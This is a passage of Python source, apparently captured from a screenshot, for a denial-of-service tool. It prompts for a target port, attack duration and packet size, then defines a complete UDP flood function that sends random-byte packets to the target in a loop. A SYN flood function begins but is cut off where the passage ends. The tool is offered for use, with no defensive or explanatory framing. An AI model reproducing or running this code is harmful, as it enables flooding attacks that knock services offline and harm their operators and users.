 ```python
    port = int(input(colored("Input Target Port: ", 'green')))
except ValueError:
    print(colored("Error :( Port Does Not Exist.  Quitting...", 'blue'))
    sys.exit()

try:
    dur = int(input(colored("Input Your Attack Duration In Seconds: ", 'green')))
except ValueError:
    print(colored("Error :( Invalid Input.  Quitting...", 'blue'))
    sys.exit()

try:
    packet_size = int(input(colored(f"Input Packet Data Size In Bytes (up to {MAX_UDP_SIZE} bytes): ", 'green')))
    if packet_size <= 0 or packet_size > MAX_UDP_SIZE:
        raise ValueError
except ValueError:
    print(colored("Invalid Packet Data Size :( Exiting...", 'blue'))
    sys.exit()

# UDP Flood function
def udp_flood(ip, port, dur, packet_size):
    if packet_size > MAX_UDP_SIZE:
        print(colored(f"Error: Packet size exceeds the maximum allowed size of {MAX_UDP_SIZE} bytes. Adjusting size.", 'red'))
        packet_size = MAX_UDP_SIZE

    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    target = (ip, port)
    start_time = time.time()
    packet_count = 0

    print(colored("Starting UDP flood attack...", 'yellow'))

    while True:
        try:
            message = random._urandom(packet_size)
            s.sendto(message, target)
            packet_count += 1
            if packet_count % 100 == 0:  # Print status every 100 packets
                print(colored(f"Sent {packet_count} packets of size {packet_size} bytes", 'red'))
        except socket.error as e:
            print(colored(f"Socket error: {e}", 'red'))
            break
        except Exception as e:
            print(colored(f"Unexpected error: {e}", 'red'))
            break

        if time.time() - start_time >= dur:
            break

    s.close()
    print(colored(f"UDP Flood attack completed. Total packets sent: {packet_count}", 'green'))

# SYN Flood function
def syn_flood(ip, port, dur):
    sent = 0
    timeout = time.time() + dur
    while True:
        if time.time() > timeout:
            break
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```